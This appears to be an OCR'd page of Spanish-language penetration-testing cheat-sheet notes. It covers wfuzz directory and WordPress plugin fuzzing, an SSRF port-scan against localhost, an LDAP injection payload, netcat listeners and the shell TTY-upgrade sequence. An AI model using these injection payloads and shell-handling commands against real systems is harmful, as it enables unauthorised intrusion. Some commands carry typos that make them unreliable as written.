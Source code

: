 ```python

## <font color="#c37437">TIMEOUT</font>
#timeout  #command 
```python
$> timeout 1 bash .c "[Command]" # Con el valor númerico indicamos los segundos que estará activo el comando 
```

## <font color="#c37437">WFUZZ</font>
#wfuzz #command 
```python
$> wfuzz -c -L -t 400 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://DOMINIO/FUZZ # Tirando del diccionario indicado busca posibles subdominios, si añadimos /FUZZ/FUZZ2 podemos reconocer más subdominios
$> wffuz -c --hc=404 -t 200 -w wp-plugins.fuzz.txt [Host]/FUZZ # Esto nos permite ver los plugins instalados en WP.
$> wfuzz -c -t 200 --hl=3 -z range,1-65535 "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ" # Ocultamos las lineas y creamos un rango de escaneo.

# -------------------- LDAP ---------------------------------------
$> wfuzz -c --hw=49 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888 # Enum atributos usuarios. 
```

## <font color="#c37437">NETCAT</font> 
#netcat  #command 
```python
$> nc -nlvp [PORT] >> # Se pone en escucha por el puerto indicado
$> nc [IP] [PORT] # Establece una coexión, y nos pedirá introducir una pass
$> ncat --ssl [IP] [PORT] # Establece conexión bajo el cifrado SSL.
```

## <font color="#c37437">LSOF</font>
#lsof #command 
```python
$> lsof -i:80' >> # Lista todos los procesos abiertos en el puerto indicado
```

## <font color="#c37437">PWDX</font>
#pwdx #command 
```python
$> pwdx [pid proceso] # Nos indica desde donde ha empezado el proceso
```

## <font color="#c37437">STTY TTY</font>
#stty #tty #command 
```python
$> script /dev/null -c bash
$> ^Z
$> stty raw -echo; fg
$> -> reset
$> -> xterm
$> export TERM=xterm
$> export SHELL=bash
$> stty -a
```
